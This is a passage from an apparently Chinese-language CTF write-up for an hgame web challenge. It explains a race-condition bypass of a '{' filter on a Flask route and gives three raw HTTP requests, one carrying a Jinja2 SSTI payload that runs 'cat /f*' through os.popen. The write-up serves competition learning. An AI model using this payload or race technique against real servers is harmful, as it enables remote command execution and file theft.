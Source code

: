 ```python
	return 'waf!!'
	

if __name__ == '__main__':
	app.run(host = '0.0.0.0', port = 5000)
```

/read路由存在ssti，但是过滤了`{`。仔细分析发现调用了两次readmsg()，考虑可以通过并发绕过。前两个包访问send路由，第一个包里放正常内容，第二个包里放ssti。还要第三个包访问read路由。三个数据包如下

```properties
POST /app/send HTTP/1.1
Host: node1.hgame.vidar.club:30834
Content-Length: 11
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://node1.hgame.vidar.club:30834
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://node1.hgame.vidar.club:30834/app/index
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

message=123
```

```properties
POST /app/send HTTP/1.1
Host: node1.hgame.vidar.club:30834
Content-Length: 11
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://node1.hgame.vidar.club:30834
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://node1.hgame.vidar.club:30834/app/index
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

message={{lipsum.__globals__.get("os").popen('cat /f*').read()}}
```

```properties
GET /app/read HTTP/1.1
Host: node1.hgame.vidar.club:30834
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.141 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
```

